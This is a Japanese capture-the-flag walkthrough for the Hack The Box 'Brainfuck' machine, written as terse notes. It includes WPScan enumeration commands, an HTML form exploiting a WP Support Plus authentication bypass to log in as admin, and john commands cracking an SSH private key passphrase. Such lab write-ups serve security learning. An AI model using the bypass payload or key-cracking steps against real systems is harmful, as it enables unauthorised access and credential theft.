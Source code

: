 - nmap > port443   
- ブラウザでアクセス。sshの証明書の確認   
	- firefox
	　鍵マーククリック＞安全な接続をクリック＞詳細を表示＞セキュリティ＞証明書を表示＞DNS名   
	 - chrom
	   鍵マーククリック＞この接続は保護されています＞証明書は有効ですをクリック＞詳細タブ＞証明書のサブジェクトの代替名＞DNS名
- 見つかったDNS名を/etc/hostsに登録
- ブラウザでアクセス
- wordpressを使っていることがわかる
- WPScanでスキャン
```bash
$ wpscan -u https://brainfuck.htb --disable-tls-checks
```
Autentication SQL Injectionの脆弱性があることがわかる
- ウェブページからユーザーにadminがあることがわかる
```sh
$ wpscan -u https://brainfuck.htb --disable-tls-checks --enumetate u
```
- searchsploitで「wp support plus」を検索  
```html
<form method="post" action="https:/brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```
- ここで行っているのはログインしているユーザーのCookieを設定するようにブラウザに支持している
- 実行し終わったら「https://brainfack.thb」に戻るとadminでログインしていることがわかる
- Dev Updateの情報にsmtp統合の準備ができたことが開発者の投稿でわかる。これはチケット発行に対する何らかのタイプのメール認証であると想定できる
- dashboard＞Setting＞Easy WP SMTPにユーザー名とパスワードが表示されている。パスワードはマスクされているので開発者ツールバーのInspectorで確認することができる
- メールクライアントを作成する
- 受信ボックスにメールが届きsecretフォームへのusenameとpasswordが書かれている
- secretフォームにログインすると「Key」「SSH Access」に投稿がある
- 「key」の投稿が暗号化されている
- [One Time Pad](https://rumkin.com/tools/cipher/one-time-pad/)で暗号キーを解読
- [Vigenère](https://rumkin.com/tools/cipher/vigenere/)で投稿を解読
- 投稿の中に「id_rsa」のダウンロードサイトがあるのでアクセスしてみる
- 「id_rsa」をダウンロードしjohnで解読
- [sshng2john.py](https://github.com/stricture/hashstack-server-plugin-jtr/blob/master/scrapers/sshng2john.py)ファイルを作成
- PRIVATE KEYの解読
```bash
$ /opt/john/sshng2john.py id_rsa > brainfuck-crack
$ john brainfuck-crack --wordlist=/usr/share/wordlists/rockyou.txt
```
- ssh接続する
	>- 他のVPN接続があるとうまく行かないことがある
```
$ chmod 600 id_rsa
$ssh -i id_rsa orestis@brainfuck.htb
Enter passphrase for key 'id_rsa':
```
- RSAの解読をする